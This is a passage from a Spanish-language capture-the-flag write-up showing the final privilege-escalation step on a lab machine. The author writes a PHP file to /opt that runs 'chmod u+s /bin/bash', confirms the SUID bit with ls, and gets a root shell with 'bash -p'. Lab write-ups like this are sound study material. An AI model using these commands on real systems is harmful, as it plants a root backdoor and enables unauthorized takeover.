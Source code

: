 ```shell
echo '<?php echo shell_exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Esperamos unos `5` segundos y si listamos la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que ha funcionado, por lo que haremos lo siguiente:

```shell
bash -p
```

Y con esto ya seremos `root` por lo que habremos terminado la maquina.
